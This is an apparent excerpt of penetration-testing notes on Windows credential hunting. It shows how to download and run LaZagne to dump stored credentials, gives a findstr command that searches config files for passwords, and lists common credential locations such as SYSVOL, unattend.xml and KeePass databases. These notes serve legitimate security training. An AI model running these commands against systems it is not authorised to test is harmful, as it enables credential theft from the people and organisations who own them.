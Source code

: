 Take advantage of third-party tools like Lazagne to quickly discover credentials that web browsers or other installed applications may insecurely store.
It would be beneficial to keep a standalone copy of Lazagne on our attack host so we can quickly transfer it over to the target. Lazagne.exe will do just fine for us in this scenario.
### Install lazagne
```
wget https://github.com/AlessandroZ/LaZagne/releases/download/2.4.3/lazagne.exe
```
### Running Lazagne All
```
lazagne.exe all
```
```
C:\Users\example\Desktop\lazagne.exe all
```
-vv to study what it is doing in the background.
### Using findstr
```
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

## Key Considerations
- **OS Type**: Approach differs for Windows Server vs. Windows Desktop.
- **System Function**: Tailor your search based on the computer's role.
- **Directory Navigation**: List directories to potentially uncover credentials.

### Common Storage Locations for Credentials
- **Group Policy**:
  - Passwords in the SYSVOL share
  - Scripts in the SYSVOL share

- **IT Shares**:
  - Passwords in scripts
  - `web.config` files on development machines and IT shares

- **Configuration Files**:
  - `unattend.xml`

- **Active Directory**:
  - User or computer description fields

- **Password Management**:
  - KeePass databases (pull hash, crack for access)

- **User Systems**:
  - Look for files like:
    - `pass.txt`
    - `passwords.docx`
    - `passwords.xlsx`
  - Check user shares and SharePoint.

# Credential Hunting in Linux
- **Purpose**: Part of local privilege escalation to find credentials that can help in gaining elevated privileges on the target system.
